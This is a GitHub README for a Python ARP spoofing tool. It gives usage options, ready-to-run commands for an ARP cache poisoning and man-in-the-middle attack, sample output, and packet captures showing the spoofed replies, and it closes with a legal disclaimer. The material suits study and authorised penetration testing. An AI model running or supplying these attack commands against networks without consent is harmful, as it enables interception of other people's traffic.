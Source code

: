 # Python 3 ARP Spoofing Tool

[![Python Version](https://img.shields.io/badge/python-3.x-blue?style=for-the-badge&logo=python)](https://github.com/EONRaider/Packet-Sniffer/)
[![Open Source? Yes!](https://img.shields.io/badge/Open%20Source%3F-Yes!-green?style=for-the-badge&logo=appveyor)](https://github.com/EONRaider/Packet-Sniffer/)
[![License](https://img.shields.io/github/license/EONRaider/Packet-Sniffer?style=for-the-badge)](https://github.com/EONRaider/Packet-Sniffer/blob/master/LICENSE)

[![Reddit](https://img.shields.io/reddit/user-karma/combined/eonraider?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![GitHub](https://img.shields.io/github/followers/eonraider?label=GitHub&logo=github&style=flat-square)](https://github.com/EONRaider)
[![Twitter](https://img.shields.io/twitter/follow/eon_raider?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages
a low-level assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.

```sh
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] [-i INTERFACE] [--attackermac MAC] [--gatemac MAC]
            [--targetmac MAC] [--gateip IP] [--interval TIME] [-d] [-f]
            TARGET_IP

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  TARGET_IP                    IP address currently assigned to the target.

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface on the attacker machine to send packets
                        from.
  --attackermac MAC     MAC address of the NIC from which the attacker machine
                        will send the spoofed ARP packets.
  --gatemac MAC         MAC address of the NIC associated to the gateway.
  --targetmac MAC       MAC address of the NIC associated to the target.
  --gateip IP           IP address currently assigned to the gateway.
  --interval TIME       Time in between each transmission of spoofed ARP
                        packets (defaults to 0.5 seconds).
  --disassociate        Execute a disassociation attack in which a randomized
                        MAC address is set for the attacker machine,
                        effectively making the target host send packets to a
                        non-existent gateway.
  -f, --ipforward       Temporarily enable forwarding of IPv4 packets on the
                        attacker system until the next reboot. Enable to
                        intercept information between the target host and the
                        gateway, performing a man-in-the-middle attack.
                        Requires administrator privileges.
```


## Running the Application

#### "Too long, didn't read"

- Execute this command and let the tool take care of the remaining
settings to perform an ARP Cache Poisoning in conjunction with a MITM
attack:

```
user@host:~$ python3 arpspoof.py TARGET_IP -f
```

#### Detailed explanation

- Let's perform an attack against a target with IP address `10.0.1.6`.
*Notice how the remaining settings are automatically obtained,
including a setup for forwarding of IPv4 packets to enable a MITM
attack (enabled by the -f switch).*

```
user@host:~$ sudo python3 arpspoof.py 10.0.1.6 -f
  
[>>>] ARP Spoofing configuration:
    [+] IPv4 Forwarding .....................True
    [+] Interface       .....................eth0
    [+] Attacker MAC    ........08:92:27:dc:3a:71
    [+] Gateway IP      .................10.0.1.1
    [+] Gateway MAC     ........52:93:d0:92:c5:06
    [+] Target IP       .................10.0.1.6
    [+] Target MAC      ........91:8b:28:93:af:07

[!] ARP packets ready. Execute the attack with these settings? (Y/N) y

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```

- Traffic displayed by 
[Network Packet Sniffer](https://github.com/EONRaider/Packet-Sniffer)
as the attack initiated above takes place. *Check that packets #5 and #6
map the gateway and target IP addresses to the attacker MAC address:*

```sh
[>] Packet #1 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> ff:ff:ff:ff:ff:ff
    [+] ARP Who has      10.0.1.6 ? -> Tell 10.0.1.5
[>] Packet #2 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] ARP ...............10.0.1.6 -> Is at 91:8b:28:93:af:07
[>] Packet #3 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] IPv4 ..............10.0.1.5 -> 10.0.1.6        | PROTO: UDP TTL: 64
    [+] UDP ..................52949 -> 54663
[>] Packet #4 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] IPv4 ..............10.0.1.6 -> 10.0.1.5        | PROTO: ICMP TTL: 64
    [+] ICMP ..............10.0.1.6 -> 10.0.1.5        | Type: OTHER
[>] Packet #5 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 52:54:00:12:35:00
    [+] ARP ...............10.0.1.6 -> Is at 08:92:27:dc:3a:71
[>] Packet #6 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] ARP ...............10.0.1.1 -> Is at 08:92:27:dc:3a:71
```

### But how is this possible?

The simplest command for this tool consists of
`sudo python3 arpspoof.py TARGET_IP`.

Then where do the remaining settings such as Target MAC, Gateway IP and
Attacker MAC come from? How is IPv4 forwarding enabled?

A brief explanation can be found in the docstring of the `ARPSetupProxy`
class in the
[packets.py](https://github.com/EONRaider/Arp-Spoofer/blob/master/packets.py)
file:

> Performs a best-effort attempt to query the system and network for
information necessary to build the ARP attack packets. **It allows the
user to initiate an attack by simply supplying the target's IP
address**. *All other required settings are looked up from the
attacker system's ARP and routing tables and by probing ephemeral
ports on the target host.*

This tool prioritizes the automated gathering of all information
required to initiate the attack, releasing the Penetration Tester from
going through all the manual processes required by similar tools.

With that in mind we have that **the following operations are the ones 
executed by the application to obtain each setting:**
- `IPv4 Forwarding`: Execute a subprocess call to set
`net.ipv4.ip_forward=1` in `sysctl`
- `Interface`: Parse the attacker's routing table and look for
interfaces mapping valid routes to the gateway.
- `Attacker MAC`: Bind to interface and query name from `socket`
- `Gateway IP`: Parse the attacker's routing table and find the route
with `0x0003` flag set.
- `Gateway MAC`: Parse the attacker's ARP table looking for devices
with `Gateway IP`.
- `Target MAC`: Send a UDP datagram with an empty byte string to a
random ephemeral port on the target system (effectively making the
attacker system execute an ARP request to the broadcast address)
and then reading the newly written information from the ARP table.

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end-user's responsibility to obey all applicable local, state
and federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity and/or availability of
systems and their associated resources by leveraging the exploitation of known
or unknown vulnerabilities present in said systems, including, but not limited
to, the implementation of security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
